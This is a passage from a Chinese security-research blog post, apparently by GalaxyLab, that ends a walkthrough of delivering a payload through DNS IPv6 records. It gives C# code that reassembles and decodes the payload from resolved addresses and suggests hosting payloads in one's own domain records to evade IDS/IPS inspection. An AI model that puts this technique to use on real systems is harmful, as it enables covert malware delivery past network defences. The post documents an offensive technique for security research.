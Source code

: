     
    
    for(int i = start + 1; i < All_lines.Length - 2; i++){    string str = All_lines[i].Replace(" ", "");    A_Records.Add(__zero(str));}

  
排序解析后的ipv6数据，并将每个ipv6地址包含的payload数据恢复出来，然后拼接。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    List<string> Keys = new List<string>();List<string> Values = new List<string>();foreach (var item in A_Records){    string key = item.Split(':')[7];    Keys.Add(key);    string value = "";    for(int i = 0; i <= 6; i++)    {        value += item.Split(':')[i];    }    Values.Add(value);}var dict = new Dictionary<string, string>();for (int i = 0; i < Keys.Count; i++)    dict.Add(Keys[i], Values[i]);Keys.Sort();string DATA = "";for (int i = 0; i < Keys.Count; i++){    DATA += dict[Keys[i]];}

  
此时的数据还是原始payload替换00之后的数据，所以下一步我们就是将payload字符串格式化成字节数组，并将aa替换成00，来还原原始的payload。

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    string tmp = string.Empty;byte[] __Bytes = new byte[DATA.Length / 2];string t = string.Empty;for (int i = 0; i < __Bytes.Length; i++){    int str_start = i * 2;    tmp = DATA.Substring(str_start, 2);    if (tmp == "aa")        tmp = "00";    t += tmp;    byte current = Convert.ToByte("0x" + tmp.ToString(), 16);    __Bytes[i] = current;}

  
其实到这里，我们获得的数据还是和原始的payload数据不一样，因为我们再构造正确的IPV6地址格式的时候，再payload的末尾填充了FF，但是这里的FF并不会影响payload的运行，所以就不处理了。  

##  **4.5 利用结果**

![](https://gitee.com/fuli009/images/raw/master/public/20220228190003.png)

#  

  

 **0x05 拓展思路**

  
这里我们是利用的自己的dns服务器，解析的合法域名的的A记录数据。那我们能不能利用自己的域名的A记录解析来作为数据传输的载体呢？比如我们购买亚马逊的aws和域名，然后添加我们的A记录数据为payload数据。  

  

 **0x06 结论**

  
DNS协议在很多的IDS/IPS设备中都是不被检测的，利用DNS解析来作为数据传输还是很有安全保证的。缺点就是构造相对麻烦，也有对payload字节的特定限制。  
  

银河实验室

![](https://gitee.com/fuli009/images/raw/master/public/20220228190004.png)

银河实验室（GalaxyLab）是平安集团信息安全部下一个相对独立的安全实验室，主要从事安全技术研究和安全测试工作。团队内现在覆盖逆向、物联网、Web、Android、iOS、云平台区块链安全等多个安全方向。官网：http://galaxylab.pingan.com.cn/

  
